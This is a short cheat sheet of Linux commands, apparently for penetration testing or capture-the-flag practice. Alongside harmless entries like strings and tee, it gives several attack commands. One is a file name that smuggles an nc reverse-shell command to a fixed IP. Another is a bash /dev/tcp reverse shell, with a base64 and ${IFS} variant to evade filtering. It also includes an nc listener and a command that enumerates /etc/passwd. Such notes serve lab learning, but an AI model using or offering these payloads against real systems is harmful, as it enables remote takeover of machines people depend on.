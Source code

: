 ### Show the strings of printable characters in files
```
strings <file name>
```

### Read from standard input and write to standard output and files
```
echo <text> | tee -a <file>
```

### Find files created by a particular user
```shell
find / -type f -user user
```

### Inject os command to file name
```shell
touch  ';nc -c bash 10.10.14.30 4321;.php'
```
'.php' is an extension

### Reverse shell by /dev/tcp/
```shell
bash -i >& /dev/tcp/<your-ip>/1234 0>&1
```

Note that the above command cannot be combinated with ${IFS} due to "ambiguous redirect"... Therefore, we can encode the above command by base64.
```shell
echo "bash -i >& /dev/tcp/<your-ip>/1234 0>&1" | base64 -w 0
```
When we send the payload the encoded command, add decoding command:
```shell
;echo${IFS}"<your payload here>"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```


### rlwrap
https://linux.die.net/man/1/rlwrap
#### nc (Listen port 9001)
```
rlwrap -cAr nc -lnvp 9001
```

### Extract information from /etc/passwd
Extract information except "false", "nologin", and "sync" from /etc/passwd
```
cat /etc/passwd | grep -v -e false -e nologin -e sync
```
false, nologin: Disallow login
sync: Sync disk(?)
